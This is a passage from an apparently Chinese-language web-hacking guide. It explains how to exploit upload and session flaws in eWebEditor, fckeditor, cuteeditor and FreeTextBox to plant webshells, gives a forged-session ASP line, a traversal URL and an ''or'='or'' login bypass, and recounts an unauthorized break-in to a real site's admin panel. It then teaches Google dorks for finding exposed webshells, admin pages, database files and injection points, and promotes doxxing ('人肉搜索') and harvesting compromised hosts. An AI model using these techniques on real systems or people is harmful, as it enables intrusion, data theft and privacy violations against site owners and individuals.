If Session("eWebEditor_User") = "" Then
    Response.Redirect "admin_login.asp"
    Response.End
End If
```

从代码分析可以得知，只判断了 Session，没有判断 Cookies 和对路径验证。这个时候如何利用呢？如果大家在目标主机发现了 eWebeditor 却拿不下站点，通过旁注拿到 shell 却提不了权，这个时候可以新建一个文件，名字随便取，如 test.asp，其中内容如下，然后保存。

```asp
<%Session("eWebEditor_User") = "11111111"%>
```

接着先访问下 test.asp，再访问下目标站的 eWebeditor 后台的其它文件，你就会发现可以进去了。说完了 eWebeditor 的 ASP 版，再来看一下 JSP 版的一个严重漏洞。在 1.4 版本以下有一个严重的上传漏洞，导致可以直接上传 jsp 后缀的文件，我们可以利用文件：**eWebEditor2.jsp?showPh=true** 来直接上传，就和前面 ASP 版的操作一样。如果这个页面被删除了，我们同样可以请求这样的 URL 来上传文件：**newsPictureUpload.do;jsessionid...?CallFromTemplateDesign=true**，如图 79。


图 79


图 80

图 81

这样就可以直接上传 jsp 后缀的文件，成功后查看源文件可得上传后文件的路径，如图 80。然后把它和 URL 合在一起就可以进去 shell 后门了，如图 81。

由于 JSP 默认安装的是 system 权限，如果管理员不做修改的话，一旦得到 Webshell，危害是很巨大的。好了，我们再来看一下 eWebeditor 的 ASP.NET 版上传漏洞，漏洞文件为 **upload.aspx**，如图 82。

看到这里有些朋友可能就会有疑问了，连上传按钮都没有，我们怎么上传呢？呵呵，大家仔细看我操作。首先选择你要上传的 Webshell，这里一定要是 cer 后缀的，因为其它后缀的文件是不允许上传的。然后在当前浏览器里输入代码：**javascript:lbtnUpload.click();**，如图 83。

接着按下回车键，这个时候页面会自动加载上传，上传完后浏览器的左下角有一个 done 的标志。我们接着来看源文件，会发现上传上去的文件被改后的名字，如图 84。上传后的路径默认为 eWebeditor/uploadfile 目录，这样把它和 URL 合起来进行访问就可以看到我们的 Webshell 了。就目前来看，PHP 版的 eWebeditor 进入后台后，一样可以按照 ASP 版的操作来进行，这里就不多加说明了，如图 85，PHP 版同样存在目录浏览漏洞。


图 82


图 83


图 84


图 85

EWebeditor 说得够多了吧，接下来看另一款编辑器，那就是 fckeditor。

## 4.3.2 fckeditor 漏洞一览

这款编辑器同样也存在上传漏洞，我们可以这样构造 URL：`fckeditor/editor/filemanager/browser/default/browser.html?Type=../&Connector=connectors/asp/connector.asp`。

其中 Type 的参数可以改成你想要看的文件夹，如 image 等；并且这里的参数就是我们上传后脚本文件的目录，这里表示是上传 asp 文件。虽然默认禁止了几种脚本文件的后缀，不过依然没有过滤干净，我们还是可以上传 asa 后缀的文件。

当然，如果我们打开这个链接时弹出了类似如图 86 这样的提示框，则大多数说明这个站已经把这个编辑器的漏洞补上了。

但是，还可以改变下链接后面的目录，比如改成 php/connector.php 或者 jsp/connector.jsp，说不定还可以成功。另外，如果没有弹出这样的提示框，也不说明这个站就有这样的漏洞。

我们先来看一下这样的一个 URL：“`http://www.xx.com/fckeditor/editor/filemanager/browser/default/browser.html?Type=../&Connector=connectors/asp/connector.asp`”，这里我把 Type 的参数改成了 `../`，表示整个网站的根目录，如图 87。


图 86


图 87

看到没有，我们可以把整个网站根目录的文件和文件夹都列出来。这个时候如何上传我们的脚本文件呢？原本以为可以上传 asa 后缀的文件，可惜失败！改后缀为 .gif.asa 也不行。这个时候不要以为无法上传了，可以试着传一下 .cer 后缀的文件，居然成功，如图 88，这样我们就可以得到一个 Webshell 了。


图 88

这里还有一个问题，就是关于路径的。当然，以图 88 来看，我们是传到了网站的根目录，但是我们要是在 Type=image 的情况下传文件，那么文件的目录在哪里呢？实践证明，我们传的文件到了 userfiles/image 目录下，大家依此类推即可。

好了，刚才我也说过，我们有时候可以利用 connectors/jsp/connector.jsp 来上传，而且这里是可以直接上传 jsp 后缀文件的，如图 89。


图 89

有些同学在这里不知道如何得知木马的路径，其实可以用 Firefox 浏览器，选中 ok.jsp 然后按鼠标右键查看源代码就得到了相应路径。

好了，接下来我再介绍一款编辑器，应用也是比较广泛，名字叫 cuteeditor。

## 4.3.3 不要忘了 cuteeditor

这个编辑器太强大了，竟然可以自定义目录，仔细看过第一章的朋友都应该知道，WIN2003 的服务器存在解析漏洞，因此这个功能给了攻击者可乘之机。不过这里还有一点小技巧，大家可能要注意一下，不能用上传图片的功能，因为把自己的小马或者 Webshell 改成 jpg 格式还是上传不了的，因为它会检查文件里的内容是不是符合相应的文件格式。所以我们这里要换一个地方上传，如上传 flash 的地方，如图 90。

图90

按照图90所示先建一个 `test.asp` 的文件夹，然后上传一个后缀为 `swf` 的小马到这个目录，这样就可以解析我们的小马了。上传成功后会在“url”那里显示路径，我这里是：`/NewsAdmin/uploads/test.asp/conn.swf`。好了，访问一下完整路径，如图91，成功浏览，接着就是你如何发挥运用了。

图91

## 4.3.4 其它编辑器总结

除了这些主流的编辑器外，我这里再提一下其它的编辑器；它们有些是这些编辑器改动而来，有些则是原创。这里特别提一下 FreeTextBox 这款编辑器的文件 `ftb.imagegallery.aspx`，由于过滤不严，导致可以构造代码形成遍历目录攻击。

```text
ftb.imagegallery.aspx?frame=1&rif=..&cif=\..
```

构造的代码格式为：`ftb.imagegallery.aspx?frame=1&rif=..&cif=\..`，其中 `frame=1` 是文件本身自带的参数，`&` 后面的语句则是构造的。我们来比较一下构造前和构造后分别访问的情况吧，如图92、图93。我们只要继续在参数 `cif=\..` 后面加 `\..` 就可以遍历上层目录的内容了。

图92

图93

利用编辑器的漏洞进行渗透是非常有用的，除了这些，我们不得不提一下平常用的迅雷或者快车等下载软件，它们在渗透中也是很有用处的。

#### 4.3.5 下载工具在渗透中的应用

通常，迅雷除了用来高速下载文件外，还可以利用其“下载所有网页链接”的功能来查找一些后台。而且网际快车也有这个功能，这里以我写过的文章《入侵，我用迅雷》来让大家彻底地了解一下这方面的作用。

《入侵，我用迅雷》

- 一、初探碰壁

打开站点一看，如图94，先找到个注入点：`http://www.xxx.com/newlist.asp?id=66`（真实地址已隐去），在后面加个单引号试试，报错了，如图95。

图94

图95

于是打开啊D进行检测，跑了半天都找不到表段，哎！此路不通。不过话说回来，这么容易搞，小风同学怎么会丢来呢？呵呵……

- 二、再探又受阻

还是先在站上转转，随便打开一个图片的链接，看是不是 EWebEditor 之类的，找了半天也没有找到。没法了，就用 Google 试试，输入关键字：`site:xxx.com inurl:.../uploadfile/` 进行搜索，如图96，依然没有结果。

又是体力活了，真麻烦呀！一个一个地来。等我把所有简单的上传啊、数据库啊都试完后，得到一个结论：这是个虚拟主机，而且好多域名都过期了，基本上每个连接不是如图98这样，就是找不到网页。看来，我这趟功夫也白费了。

##### 三、三探觅杀机

冷静下后想到了一个工具 `wwwscan`，扫描下它的 Web 试试，这回收获不少，如图99，发现了 `edit` 这个目录。

试着在网站域名后面加上 `/edit` 后回车，哇，竟然有遍历目录的漏洞，如图100。于是我又继续在网站域名后试着加些 `/images` 或 `/upfiles` 等目录，看能不能有用，可是事与愿违，全是些没用的东西。时间不早了，肚子也饿了，先吃饭！

图100

##### 四、完成任务

边吃饭边看着我的迅雷下着一个东西，咦！？迅雷不是有个“用迅雷下载全部链接”的功能么？嗯，放下饭碗，在网站首页按鼠标右键，选择用迅雷下载全部链接，弹出个对话框，如图101。

图101

这里大家要注意了，不同的页面，迅雷下载的链接就不同。最开始我点到“网站首页”这个版面去了，结果老是找不到需要的东西；当我点到“装备购买”这个版块时，才出现我要的效果。这时从链接中很容易看出存在 `sxadmin` 这个目录，马上在网站域名后面加上这个目录进行访问，如图102，呵呵，关键信息全暴出来了。

图102

从得到的信息中我们知道，在 `sxadmin` 后加上 `login.asp` 就可以显示后台了。进入还要密码？先试试 `'or'='or'` 吧，暴汗，就这样让我进去了，如图103。

图103

这个网站在隐藏性方面做得还不错，存在注入，但却在表段上下了功夫，提高了安全性。只是管理员太过于自信了，以为 Google 找不到就一定很安全，大家也都看到了，迅雷一下子就将它的防线突破了。在后台里我看了下，虽然有 EWebEditor，但是管理员把那些危险的页面都删了，我搞了半天都没拿到 SHELL。

入侵不是目的，享受过程和学习知识才是重要的。这里使用了迅雷的功能，其也是基于爬行原理，有 URL 链接就连接过去，直到找不到再有链接为止。使用快车的操作也大同小异，大家有空不妨一试。我们再回来看这一小节，有点剑走偏锋，可还是看出这些我们平常不太注意的东西存在潜在的利用价值。

渗透入侵是一个细心活，大家仔细琢磨、仔细想想，只要肯想，就应该有收获的。接下来，让大家接触属于信息收集的重要一步，大家继续往下看啦。

## 4.4 Google大杀器

在前面的内容中，都提到过利用 Google 搜索网站的一些敏感目录和文件，那么，这些攻击者是如何精确定位到这些文件的呢？有哪些语法需要遵循呢？Google 到底可以搜索到何种地步呢？我们甚至听说，有些黑客可以利用 Google 搜索功能来自动攻击那些有漏洞的网站；而有些人则可以通过搜索把某个人的信息，包括住址、电话号码、出生年月等都可以搜索出来；当然，一些黑客还可以利用搜索把 Webshell 留在网站上的地址也搞定……这些究竟是怎么做到的呢？在这一小节里，我就和大家一起来学习搜索方面的知识，一起走进搜索国度。

关于搜索，像国内的百度、Yahoo 等好多网站都可以做到，为什么 Google 的搜索影响却这么大，这么令人关注呢？我们先来大概地了解一下 Google 的搜索特色。

Google 的一些特色包括：支持多种搜索语言，种数达到了上百种；搜索速度快，据说 Google 有 8000 多台服务器、200 多条 T3 级别的宽带；Google 的专利网页级别技术 PageRank 能够提供高命中率的搜索结果；Google“智能化的‘手气不错’功能可以提供最符合要求的网站。就像做生意一样，服务到位了，客户自然就会多。

好了，为了做更深入的了解，我们还是先来学习一下 Google 的搜索语法吧。**Google 的搜索语法分成了两个大类，一类是基本语法；另一类就是高级语法了。**

#### 4.4.1 基本语法

Google 默认的搜索是 AND 的搜索逻辑，也就是说，我们在输入关键字进行搜索后，如输入：“黑客 Google”，就会搜索包含“黑客”和“Google”的文件内容，如图104。

图104

讲到这里我插入一个小知识点：基础布尔逻辑。

对于一个搜索引擎来说，进行搜索的时候是要搜索到匹配所有关键词的页面，还是仅包含关键词中的任意单词就可以，取决于搜索引擎的一些特别算法，我们称之为搜索引擎的布尔逻辑默认值。

而 Google 就是用 AND 作为默认逻辑（搜索到所有的关键词），当然这个前提是用户没有输入一些特殊的命令。如果你不确定你要搜索的内容，或者你想搜索两个中的任意一个，那么就要用关键词“OR”了。注意了哦，这里是大写，小写是不起作用的。我们来比较一下搜索结果，如图105、图106。

还有一点要注意哦，那就是每个关键词，如“黑客”和“OR”之间是有一个空格的，如果没有空格的话，那结果又不一样了。此外，Google 还借助计算机体系的语言“|”来代替“OR”，效果是一样的。当然，如果你想搜索包含“黑客 Google”这一词组的内容，而不希望搜索的内容之间有其它的内容，我们可以用双引号把搜索的内容组成一个词组来达到目的，如图107。

图105

图106

图107

图108

看一下图107的搜索结果，“黑客”和“Google”之间没有任何内容，而是一个整体。要是我们只想搜索到关于“黑客”方面的内容，而不想要那些关于 Google 的内容呢？我们可以把“-”（减号或者破折号）应用到搜索中，语法为：“黑客 -Google”，如图108。这里要注意了哦，“-”的前面要有空格，后面与“Google”是紧密相连，之间是没有空格的。

说到这里，我们不得不提到 Google 的约束扩展问题了。一般来说，当输入关键词进行搜索后，Google 会把相关网页和信息的结果呈现在我们面前。然而，有一些单词在 Google 的搜索中会被忽略，导致我们得不到想要的结果。如此较常用的“WWW”、单词“the”等，基本上任何一个网页上都会找到的东西，就会被 Google 自动忽略。如果你不想让 Google 忽略这些内容而进行查询，就得在这些关键词的前面加上符号“+”。如图109、图110，为加上和不加上“+”所带来的搜索结果。

图109

图110

细心的朋友比较一下图中的搜索结果就明白了，加了“+”符号的结果为18项，而不加的则有4980000项。

除了以上这些字符外，一些搜索引擎支持一种叫做“stemming”（填充）的技术。Stemming 是指在查询的关键词中加一些通配符，通常是 `*`（星号），有时候也可能是 `?`（问号），这些通配符的作用是要求搜索引擎进行查询时，能够返回多个不同的结果，其中通配符代表占位，可以匹配任何字母或单词，其它的字或词组与用户输入的相同。

如我们搜索“黑*Google”，搜索结果如图111。我们可以看到，第1、2项是以“黑屏”和“黑版”为关键字搜索的。这样搜索一般用于忘掉了某关键字时使用，结果自然是不太精确。虽然“*”不能代表一个单词的一部分，但是可以在短语中使用一个通配符来代表一个完整的字。如我们搜索 `"who * you"`（注意，整个关键词要加半角双引号哦），则中间的 `*` 可以是任何单词，搜索结果如图112。

图111

这样的搜索有利于我们只记得住某个短语的一部分时使用。好了，基本的语法就讲到这里，我并没有讲全，因为有些搜索语法和黑客技术的关系不是太大。不过，这些语法已经够你用了，基本语法就是做基本的事，Google 也有许多高级语法，一起来见识一下吧。

#### 4.4.2 高级语法

我们回顾一下前面的基本语法，发现这些基本语法只能做一些基本的搜索而已，并且结果也不太精确。除了基本的逻辑 AND、OR 和短语搜索外，Google 还有一些特殊的语法结构，掌握了这些语法就可以帮助用户进一步地缩小搜索范围。

我们知道，到目前为止，我们进行的搜索都是基于网页内容的搜索。如果我们搜索的内容 Google 需要检索100多万个网页的话，这个时候对使用者来说是非常不方便的。如果可以将搜索范围限定在网页的标题或者 URL 中，就可以得到很精确的搜索结果，而不需要用户将关键词设定得非常精确。心动了吧？接下来就要讲述一下这些语法的功能以及结构要素。

### Intitle:

`intitle` 语法将搜索的范围限制在网页的标题上，如搜索“`intitle:黑客入侵`”，那么我们得到的结果将会是网页标题带有“黑客入侵”字样的网页，如图113。

图112

图113

其中 **intitle** 还有一个变体，那就是 **allintitle**，它的意思是搜索所有包含关键字的网页。假如我们搜索“`intitle:黑客入侵 Google`”（注意 Google 前有一个空格），就会搜索到标题中含有“黑客入侵”、网页中或者标题中含有 Google 内容的网页。而使用“`allintitle:黑客入侵 Google`”进行搜索，就会搜索到包含“黑客入侵 Google”全部关键字的网页标题，如图114、图115。

##### intext:

从这个单词的表面意思大家就应该了解是搜索网页中内容的。`intext` 是搜索网页正文的关键词，这样可以忽略掉超链接文本、URL 和题目。如我们这样搜索一下：“`intext:2008 奥运`”，结果如图116。

看到结果了吗？这时有人要问了，这和平常的搜索有什么高级之处呢？是的，对于常规搜索来说，这个语法的意义确实不太重大；但对攻击者来说，构造好关键词配合适当的语法就可以进行撒网式攻击。

我们知道网站一般都有管理后台页面，而这些登录页面经常会出现“管理员登录”、“管理员账号”字样的存在，如果我们以这些信息为关键词进行搜索，结果会怎样呢？如图117。

效果很明显吧，至于关键词的收集和如何提高搜索效率，我将在后面提到。其实这个语法也有一个变体，就是 **allintext**，意思和前面的 allintitle 类似。

### Inanchor:

这个语法的意思是在页面的链接锚点进行搜索。链接锚点指一个链接的描述文本，如这样的一段 HTML 代码：`<a href="http://www.baidu.com">百度</a>`，链接的锚点就是“百度”了。我们搜索“`inanchor:百度`”，就可以搜索到有哪些含有锚点的网页了，如图118。

同样的，这个语法也存在一个变体 **allinanchor**，作用与前面同类相似。

### Site:

这个语法是起限制作用的，即把搜索限制在站点域名之内。如我们搜索“`site:baidu.com`”，注意通常不需要加上前面的 `www`，这样搜索出来的结果就会包括所有含有 `baidu.com` 域名的有关内容、域名和二级甚至三级域名的内容，如图119。也就是说，我们可以通过搜索，确定 `baidu.com` 大概有多少个子域名。

### Inurl:

`inurl` 会将搜索的结果限制在 URL 或网站页面上，这个语法对于查找搜索和帮助是很有用的，不仅适合于黑客搜索，更适合于我们普通的搜索。如我们搜索 `inurl:login`，就会把 URL 所有包含 `login` 字样的网页显示出来，如图120。

另外，这个语法也有一个变体 `allinurl`，作用与前面同类相似。说到这里我提一下，就是 `inurl` 和 `site` 是攻击者用得最频繁的，利用它们组合可以搜索到很多有用的信息。如我们要搜索 `baidu` 到底有多少个子域名，可以用语法 `site:baidu.com -inurl:www.baidu.com`，搜索结果如图121。

### Link:

`link` 查询的是所有链接到某个特定 URL 上的页面列表。记住了，是特定的 URL 页面，如输入 `link:www.baidu.com` 进行搜索，就会返回所有链接到百度主页的网页了。因此，我们同样可以指定特定的 URL 页面来进行搜索。

### Cache:

`cache` 可以帮助用户查找到 Google 索引过的页面副本，它的最大好处就是即使源文件页面不存在了，或者变成了其它的内容，我们依然可以搜索得到。使用也很简单，输入 `cache:www.baidu.com` 即可。

### Filetype:

`filetype` 是搜索指定后缀的文件。通常说来，虽然不是必要的，文件都会被分成不同的类型，如 `filetype:htm` 和 `filetype:html` 就会产生不同的搜索结果，虽然它们属于同种类型的文件。攻击者一般可以通过这种语法对一些比较敏感的文件后缀进行搜索，如配置文件（后缀一般是 `ini`）或数据库文件（ACCESS 格式为 `mdb`）等。如我们想搜索 `mdb` 格式的文件，语法为 `filetype:mdb`，结果如图122。

你看，一些网站的数据库文件就展现在我们面前了。为了增加大家对文件后缀的知识，下面列出一些比较敏感或者特殊的文件后缀，它们有可能会造成信息的泄露：

- `ini`：配置文件
- `inc`：配置文件
- `sql`：数据库格式文本文件
- `txt`：文本文件
- `rar`：WinRAR 文件
- `rpb`：这个可是 admin 地址簿的后缀名，用 Google 可以搜索到哦
- `bak`：备份文件
- `chm`：编译后的 HTML 文件，常用于制作帮助文件
- `doc`：Word 文件
- `xls`：电子表格
- `ppt`：演示幻灯片
- `swf`：Flash 文件，搜索一些 Flash，有助于分析网站目录
- `pdf`：图文多媒体文件
- `dic`、`txt`：文本文件
- `lst`：列表文件
- `config`：最常见的莫过于 Web.config 了，是用来储存 ASP.NET 的 Web 应用程序配置信息
- `xml`：和 HTML 一样，都是标准通用语言，不过有些 XML 文件里可能有敏感信息
- `mdb`：Access 的数据库文件
- `htaccess`：该文件放置了一个或者多个指令，通常可以对某些目录或文件进行访问保护
- `dat`：数据文件
- `data`：该后缀文件可用于存储一些数据
- `pl`：Perl 程序
- `bat`：批处理程序
- `nsf`：Lotus Notes 数据库
- `ORA`：Oracle 7 配置文件
- `ORC`：Oracle 7 脚本文件
- `reg`：注册表文件
- `SCP`：拨号网络脚本文本文件
- `vbs`：VB 文件
- `js`：JS 文件


当然了，经常在网上转悠的人还会发现 asp、php、jsp 等文件并没有列入此表，这是因为这些文件本身就是 Web 的组成文件，这里我只是将网络上可能存在，但通常却不会显示的后缀文件列了出来。

## Related:

这个语法是用于查询与某些页面相关的网站的，这是辅助搜索同一类别页面的好方法。比如我们搜索：“`related:www.Google.com`”，得到的结果就是不同搜索引擎的列表，如图123。


## Info:

info 这个语法可以搜索到关于一个 URL 的更多信息的页面列表，这里的信息包括指向到 URL cache 的链接、链接到某个 URL 的所有页面的列表、与某个 URL 相关的页面，以及包含这个 URL 的页面。搜索结果如图124，注意下面的英文。

#### 4.4.3 实战应用

### 1. 搜索 Webshell

有些 Webshell 没有登录验证，这样我们就可以根据文件的特征通过 Google 轻易地把它们找出来。而有验证的 Webshell，我们也可以根据找出来的一些信息判断以前的入侵者是怎么进入这些网站的。判断特征一般为网页标题、网页的登录口内容等，这里以明小子的 diy.asp 为例来进行说明。我们先看一下 diy.asp 的界面，如图125。

仔细看看，如网页的标题就是“旁注－网站小助手”，而且网页的内容里包括“本文保存的绝对路径”等字样，默认的文件名是 diy.asp。这样，我们用文件名作为关键词来搜索一下，语法为“inurl:diy.asp”，搜索的结果如图126。


我们发现前十项的搜索结果里还有其它文件，看来结果还不精确。我们再用网页标题来试试，搜索语法为“intitle:‘旁注－网站小助手’”，发现前十项里的结果也不算很精确。这时再试试用网页内容来搜索，如：“intext:‘本文保存的绝对路径’”，结果依然不精确。

以上例子说明了一个问题，那就是不同的关键词会导致结果的不同，而且关键词的正确选取也直接关系到结果的精确性。说来也奇怪，明小子的 diy.asp 这个文件即使我们搜索出来了，但却利用不了。也就是说，在上传文件的时候是传不上去的，这一点我一直也没有弄明白，也就只能从这个页面得到网站的绝对路径了。

不过一些 shell，如国外的 r57 和 c99 的 shell 就没有做登录验证。如图127，就是我用“inurl:c99.php filetype:php”搜索到的一个 Webshell。


说道这里我们就明白搜索技巧对结果的重要性了。比如一些攻击者在入侵一个站点的时候，发现怎么样操作都无法突破，但上面有 Webshell 却不知道密码。这种情况下，攻击者可能迂回作战，利用 Google 把其它站点上存在的相同 Webshell 找出来，然后找安全性相对低的下手，获取密码后再试前面的同类 Webshell。

说起来，这种攻击手法有点类似于社会工程学了，不过也不失为一种好的攻击手段。因此，这类手法中，Google 的使用是很有效果的。

##### 2. 对特定网站的搜索

前面我们在对网站进行目录探测的时候发现，无论是以字典还是爬行方式探测，都有可能抓不到一些有效目录，如管理员目录或者一些配置文件等。这个时候怎么办？当我们发现后台的功能过于简陋而无法获得 Webshell 的时候，又怎么办？当我们碰到的是一个大型网站，乍一看上去都是 HTML 文件，我们又该想什么办法呢？答案很简单，还是利用 Google。

当我们知道了数据库类型并有了管理员用户名和密码，但找不到后台的时候，可以尝试一下这几种搜索组合，如“intitle:管理员登录、inurl:login、inurl:admin、intext:用户名 密码”等，说不定就可以找到管理员的目录了。

当然了，这些语法是让搜索引擎全网搜索包含指定关键字的页面，如果我们要对指定网站进行搜索，就应该加上 site:网站，搜索语法为：“site:xx.com intitle:管理员登录”，搜索结果如图128。


看见没有，一些后台登录文件就显示在我们的面前了。当然，在渗透一些大站的时候，主站一般很少会有机会让攻击者下手，这个时候攻击者会把目标放在大站的分站上面，这样就相对容易些。而网站结构如果很大，一个一个分析起来就比较麻烦，如果利用 Google，再把一些上传、管理员登录页面，或者遍历目录漏洞等结合起来，工作量就会大大减小。

我们刚才通过搜索找到了管理员登录页面，想找到上传页面文件，我们也可以利用 Google 的搜索语法，如“inurl:upfile.asp、intitle:文件上传、inurl:upload.asp”。当然了，这里的 upfile.asp 文件只是其中的一种格式，如果不存在，可以试试搜索 upfile.php 或者 upfile.jsp。因此，用 inurl 这个语法搜索的话，需要把握好关键词的提炼。

另外，intitle 和 intext 这两个语法进行比较，intitle 要准确一些。我们用刚才的网站来试一下，搜索语法为：“intitle:文件上传”，结果如图129。


这样，我们就轻易拿到了两个可以上传的页面，这里可能就是突破点了。下面再来看一下遍历目录漏洞的搜索，在前面章节中所提到的这个知识我没有细讲，因为任何一种 Web 服务器只要配置不当就有可能存在这样的问题。我们先用 Google 搜索一下，语法为：“intext:"index of/"”，搜索结果如图130。

遍历目录算得上是一个比较鸡肋又不得不让人重视的漏洞，因为遍历目录可以让网站下的文件和目录全部展现在攻击者的面前，方便了信息收集。

除了上面用到的“index of/”这个关键字以外，我们还可以配合这些关键字：“to parent directory”。


```text
site:xx.com intitle:管理员登录
intitle:管理员登录
inurl:login
inurl:admin
intext:用户名 密码
inurl:upfile.asp
intitle:文件上传
inurl:upload.asp
intext:"index of/"
to parent directory
```

parent directory、last modified description、“转到父目录”等。

当大站的安全性足够好，而我们又无法找到这些文件的时候，是不是应该把目光放到第三方编辑器或者注入等方面呢？或者可以看一下有没有什么 txt 文件、ini 文件或是 mdb 文件的存在。

第三方编辑器用得最多的莫过于 eWebEditor 了，我们仍以刚才的网站为例，利用 Google 语法搜索：`site:xx.com inurl:../uploadfile/`。大家仔细看好了，用 inurl 的时候后面有两个点，表示搜索 URL 任何位置出现 uploadfile 的网页，搜索结果如图131。


图131　图132

当然了，关于如何更有效地搜索出 eWebEditor 的文件，这就要看个人的经验了。当然还有其它编辑器，这里不再提及。除了第三方系统外，我们还可以利用 filetype 语法来搜索可能存在敏感信息的文件后缀。前面我已经把可能会泄露信息的文件后缀罗列了出来，这里演示一下搜索的实际效果。

我还是以这个网站为例，在 Google 里搜索：`site:xx.com filetype:ini`，结果如图132。

前面提到过，如果我们搜索到的页面已经不存在了，还可以利用缓存查看。既然说到这里了，有一个特殊的文件不得不提一下，那就是 `robots.txt`！这里插入我的一篇文章来专门说一下这个文件吧。

#### 《将偷窥进行到底》

### 1、了解 robots.txt 文件

> 搜索引擎使用 spider 程序自动访问互联网上的网页并获取网页信息。spider 在访问一个网站时，首先会检查该网站的根域下是否有一个叫做 `robots.txt` 的纯文本文件。您可以在您的网站中创建一个纯文本文件 `robots.txt`，在文件中声明该网站中不想被 robot 访问的部分，或者指定搜索引擎只收录特定的部分。

举例来说，当 spider 访问一个网站（比如 `http://www.abc.com`）时，首先会检查该网站中是否存在 `http://www.abc.com/robots.txt` 这个文件，如果机器人找到这个文件，它就会根据这个文件的内容，来确定它访问权限的范围。

请注意，仅当您的网站包含不希望被搜索引擎收录的内容时，才需要使用 `robots.txt` 文件。如果您希望搜索引擎收录网站上所有内容，请勿建立 `robots.txt` 文件，或者创建一个内容为空的 `robots.txt` 文件。

现在我们知道了，这个文件里放的是不想让我们看到的文件，那么 `robots.txt` 它本身是否可以被搜索到，从而让我们查看其内容呢？打开 Google 搜索：`inurl:robots.txt`，结果如图133。

第一项结果竟然是 Google 自己的 robots.txt 文件，呵呵。我们打开看看，哇，不看不知道，一看吓一跳！如图134。


图133


图134（左） 图135（右）

我们再挑个网站来看看，如图135，大家知道这是哪个站吗？貌似 text 居多啊！robots.txt 文件原本的作用是想阻止别人对里面包含的文件进行访问限制的，没想到就因为这一点，反而被我们所利用！如果在这个文件里面把它本身加进去，效果又会是怎么样呢？呵呵，相信这个小小的缺陷又会带给我们黑站的同胞们一些线索哦！文章具有一定的偶然性，大家如有什么更大的发现，一定要放出来哦！

说了这么多，我们现在重新整理一下，上述方法都没有得到比较好的成果，我们现在该如何应对呢？还有注入，就是利用啊D工具了。这里有一个小细节，那就是啊D不仅可以对 ASP 脚本类型进行检测，还可以对 PHP、JSP 类型的脚本进行检测，原理当然都是差不多的。

到现在为止，介绍这小节可能让大家感觉到有点头晕了。不过不要紧，我这里说一点思路，那就是找网页的标题、找网页的内容、找特定的目录。而从上面的内容我们也可以清楚地看到，用得最多的莫过于 inurl、site 和 filetype 这三个语法关键词。只要灵活运用，再加上丰富的经验和多变的语法，用 Google 就没有搜索不到的内容了，只要它和 Internet 相连。

### 2．特定服务搜索

在最近几年里，由于网络的迅猛发展，我们经常会在一些新闻或者 BBS 上看到“人肉搜索”这几个字眼，那什么是“人肉搜索”呢？

> “人肉搜索”一词多是贬义，它仍然是一种针对某个问题或者事件抛出的问题，最终寻找出最佳答案的搜索机制。但这个术语中的“人肉”一词，在夹杂着些许黑色幽默的同时，也准确地表明了这种搜索方式的特点：搜索行为的原动力，不再像传统的搜索方式那样，仅仅依靠某个网络程序或者冰冷的互联网资料库，而是更多地靠无数有着真实血肉之躯的网民亲身参与；由他们在某个随时可能参与进来的时间，用自身的知识、经验、信息渠道，向提问者送上部分答案；再由其它网友补充、完善，直至最后得到确切的答案。”

上面这一段话也很好地解释了“人肉搜索”的意义，大家还可以在 Google 上看到其解释，相应的 URL 为 http://www.Google.cn/intl/zh-CN/renrou/index.html。知道原理我们就可以明白“人肉搜索”是怎么回事了，也就是说，“人肉”还是依靠网络这一张大网，把我们各自见到的信息传递给需要了解信息的人。

那怎么对某人进行“人肉搜索”呢？最简单的办法就是到一些人气比较高的 BBS 等网站上发帖求助，而我觉得如下网站进行“人肉搜索”是比较好的。

- **猫扑“人肉搜索”**（http://dzh2.mop.com）  
  当某人需要解决一个问题，比如搜索你要找的人，当然你得提供相关的信息，然后在猫扑发帖并给予一定数量的 MP（猫币）作为酬谢。很快，就会有赏金猎人看到这个帖子，他们就会去用搜索引擎来寻找问题的答案。
- **天涯问答**（http://wenda.tianya.cn/wenda/）  
  “天涯问答”是一个问答知识社区，网友在此可以查找、交流、组织信息，并与其它有共同兴趣的人交流。
- **百度知道**（http://zhidao.baidu.com）  
  “百度知道”是一个互动知识分享平台，把不懂的、不明白的问题提出来让网友回答，再选择一个最满意的答案，作为最佳答案来结束这个问题。

对于“人肉搜索”来说，上面三个站拥有的人气比较高。当然了，在其它网站也是可以进行“人肉搜索”的，如新浪爱问（http://iask.sina.com.cn）、优库网（http://www.ucloo.com）、奇虎问答（http://www.qihoo.com）、中文博客搜索引擎（http://www.souyo.com）、雅虎知识堂（http://ks.cn.yahoo.com）、搜搜问问（http://wenwen.soso.com）、搜网知道（http://zhidao.sowang.com）等。

除了上面讲到的“人肉搜索”，一些特定网站的搜索，可以选择特定的搜索引擎来获得结果，效果也是不错的。比如我们对繁体中文网站进行搜索，可以去 http://www.Google.com.tw/。而对于大学网站的搜索，除了 Google 以外，百度也有，地址分别是 http://www.Google.com/intl/zh-CN/universities.html 和 http://daxue.baidu.com/，如图136。


图136

Google 除了可以对国内大学进行搜索外，还能对国外的大学进行相应的检索，这当然也就是其优势所在了。

##### 4. 实战 Google 抓肉鸡

这里我演示的是利用一些关键字来高效地得到一些有用的信息，甚至是服务器！而这些关键字的发布，大家可以到最全最权威的 http://johnny.ihackstuff.com 进行查看，这里有各种各样的关键字。如果你觉得还是很麻烦的话，可以使用工具，比如 Goolag Scanner，其界面如图137。


图137

界面左侧是各种关键字，而右侧可以填写相应的主机名或者 IP 进行扫描，使用非常简单。下面以我的一篇文章来深入了解一下这个工具及如何利用它进行相应的操作。

## 《再谈 Google hack》

平时我们都喜欢用 Google 来批量搜索注入点，或者对指定的站点进行扫描。如果运气好的话，可以得到很多有用的东西。比如批量搜索注入点，我们可以配合啊D打开 Google，用语法：

```text
inurl:asp?id=
```

进行搜索，如图138。这样就会找到很多注入点，因此 Google 是深受大家欢迎的，今天我要说的就是利用工具来完成 Google hack。


图138

##### 一、工具介绍

那天 lizaib 同学发来一条新闻，说是关于 Google HACK 的，于是打开一看，让我来了劲，如图139。接着他又发来了这个扫描器的下载地址：http://www.goolag.org/，下了回来进行安装，很简单，不过需要注意一点，这个工具需要 .NET 的支持，它会自动下载的。安装好后，运行工具，界面如图140。


它最大的特点就是关键字的收录，从图140就可以看出左边的那些收录条数了，而且划分得很详细。我们从中随便选一个目录看下，那就最后一个吧：Web server detection，从字面上的意思就可以看出是关于 Web 服务器的，有 71 条关键字。随便点击其中一条，便会在右边的信息框中显示其具体信息，如图141。

接下来就是看效果的时候了，我们把选中的关键字：“About Mac OS Personal Web Sharing”在 Google 中搜索，效果如图142。


